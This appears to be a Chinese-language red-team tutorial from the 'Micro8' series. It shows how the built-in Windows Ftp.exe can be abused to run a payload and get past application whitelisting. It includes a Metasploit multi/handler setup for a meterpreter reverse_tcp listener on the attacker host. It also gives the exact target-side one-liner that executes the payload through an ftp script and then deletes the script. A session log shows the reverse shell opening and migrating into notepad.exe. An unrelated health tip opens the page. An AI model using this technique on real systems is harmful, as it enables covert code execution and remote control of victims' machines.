 ```yaml
---
title: 88、基于白名单Ftp.exe执行payload第十九季
date: 2019-09-21 19:06:50
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Ftp.exe简介：

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

**说明：**Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

Windows 2003 默认位置：
```code
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

Windows 7 默认位置：
```code
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 配置攻击机msf：

**注：**需设置参数 
`set AutoRunScript migrate -f`  

```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > set AutoRunScript migrate ‐f

AutoRunScript => migrate ‐f

msf exploit(multi/handler) > exploit 
```
![](../do/media/ba49d6ee6a8ab9586614befb0cf9c5b5.jpg)

### 靶机执行：

```code
echo !C:\Users\John\Desktop\rev_x86_53_exe.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

```code
msf exploit(multi/handler) > set AutoRunScript migrate ‐f
AutoRunScript => migrate ‐f
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 10 opened (192.168.1.4:53 ‐> 192.168.1.3:5530)
at 2019‐01‐21 05:14:57 ‐0500
[*] Session ID 10 (192.168.1.4:53 ‐> 192.168.1.3:5530) processing AutoRunScript 'migrate ‐f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rev_x86_53_exe.exe (8832)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 8788 
```

![](../do/media/949fe91f87123f2b6767a38e2dddc7db.jpg)

>   Micropoor
